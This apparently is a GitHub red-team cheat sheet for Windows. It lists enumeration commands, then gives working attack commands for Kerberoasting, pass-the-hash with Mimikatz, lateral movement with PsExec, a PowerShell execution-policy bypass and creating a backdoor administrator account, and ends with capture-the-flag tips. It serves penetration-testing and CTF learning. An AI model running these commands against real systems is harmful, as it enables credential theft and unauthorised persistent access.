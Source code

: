 # Windows Red Team

Windows Basic Command


Red team basic Enumeration

| Command    | Description                                                                                                                                                                       |
|------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ipconfig   | Display the IP configuration for all network interfaces. Example: ipconfig /all                                                                                                               |
| net        | A suite of commands for network settings and shares. Example: net user to list users.                                                                                                         |
| netstat    | Network statistics. Example: netstat -ano to display active TCP connections and process PID.                                                                                                  |
| nslookup   | Query the DNS server for domain name or IP address mapping. Example: nslookup example.com                                                                                                     |
| whoami     | Display the username and domain of the current user. Example: whoami                                                                                                                          |
| systeminfo | Display detailed configuration information about a computer and its operating system. Example: systeminfo                                                                                     |
| schtasks   | Schedule tasks to run periodically or at a specific time. Example: schtasks /create /tn TaskName /tr TaskRun /sc daily                                                                        |
| wmic       | Windows Management Instrumentation Command-line. Example: wmic process list brief lists details about all processes.                                                                          |
| gpresult   | Display the Resultant Set of Policy (RSoP) information for a remote user and computer. Example: gpresult /r                                                                                   |
| powershell | Starts a new PowerShell session. Example: powershell -exec bypass to start PowerShell with script execution policy bypassed.                                                                  |
| sc         | Service Control - manage Windows services. Example: sc query to display the status of services.                                                                                               |
| tasklist   | Lists all running tasks/processes. Example: tasklist                                                                                                                                          |
| taskkill   | Kill a running task/process. Example: taskkill /PID pid_number                                                                                                                                |
| reg        | Registry command that allows you to read from and write to the registry. Example: reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run to check all the programs that run at startup. |
| icacls     | Display or modify Access Control Lists (ACLs) for files and directories. Example: icacls C:\path\to\folder to display the ACLs.                                                               |
| netsh      | Network command to view or modify network configurations. Example: netsh wlan show profile to show saved WiFi profiles.                                                                       |

## Red Team Quick Strategies

Here's a succinct guide for some key Red Teaming concepts and practices regarding Windows and Active Directory.

**Enumeration** 

You start with gathering as much information as possible about the target environment. 

For instance, you can use PowerView, a PowerShell tool to explore Active Directory domain.
powerview: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1
Example:
```
Import-Module .\Powerview.ps1
Get-NetDomain
```
This command gets information about the current domain.

**Kerberoasting**

A technique that involves cracking service account passwords. TGS tickets get requested and cracked offline without sending any traffic to the target, hence evasion.

You can use Invoke-Kerberoast in PowerView to kerberoast:

```
Invoke-Kerberoast -OutputFormat Hashcat|Select-Object -ExpandProperty hash | Out-File -Encoding ASCII kerbhashes.txt
```
This command generates a Hashcat-ready file with all the hashes.

**Pass-the-Hash**

A technique where you use a user's NTLM hash instead of the plaintext password for authentication.

For example, using the tool Mimikatz:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:<ntlm_hash> /run:cmd.exe
```

This starts a new process (cmd.exe) with the specified user and hash.

**Lateral Movement**

This involves moving from one machine to another within the network to gain elevated privileges or to access specific resources.

A common method is to use PsExec for executing payloads on other machines:

```
PsExec.exe \\targetPC -u domain\username -p password cmd
```

This command runs cmd.exe on the target machine.

**Persistence**

Ensure you can retain access, even if the system reboots or the user logs out. A common method is to create a backdoor user in the AD.

```
net user /add [username] [password]
net localgroup administrators [username] /add
```

These commands add a new user and put it into the administrators group.


## CAPTURE THE FLAG

In a Capture The Flag (CTF) challenge where you're already inside a Windows VM using Meterpreter and you need to find the flag, here are some steps you can take:

1. **Explore the File System:**
   - Use Meterpreter's `shell` command to get a command prompt on the Windows VM.
   - Navigate through the file system (`cd`, `dir`, `type`, etc.) to search for the flag. Common locations are the Desktop, Documents, or hidden directories.

2. **Search for Files:**
   - Use commands like `dir` and `findstr` to search for files containing keywords related to flags.
   - Example: `dir /s *flag*.*` or `findstr /si flag *.txt`.

3. **Check Registry:**
   - Examine the Windows Registry for hidden clues. Use `reg query` to look for values that might contain the flag.

4. **Network Enumeration:**
   - Check network configurations and connected devices. Sometimes, flags are hidden in network-related settings.

5. **Check Running Processes:**
   - Use `tasklist` to list running processes. Sometimes flags are hidden within process memory or environment variables.

6. **Decode/Decrypt Encoded Strings:**
   - If you find encoded or encrypted strings, use tools within Meterpreter or Windows itself to decode them.

7. **Check System Logs:**
   - Inspect system logs for any suspicious activities or messages. Use `eventvwr` to check the Event Viewer.

8. **Examine Active Directory:**
   - If applicable, check for Active Directory-related information. Flags might be hidden in user attributes, group names, or descriptions.

9. **Examine User Profiles:**
   - Look into user profiles for any clues. Check the contents of folders like `AppData` for hidden files.

10. **Check Installed Software:**
    - List installed software (`wmic product get name`) and investigate their configurations for flags.

11. **Payload Persistence:**
    - If the challenge involved setting up persistence, check the method used. Flags might be hidden in scripts or registry entries related to persistence.

Remember to document your findings and ensure that you're maintaining the rules and objectives of the CTF challenge. Always follow ethical guidelines and rules provided by the CTF organizers.
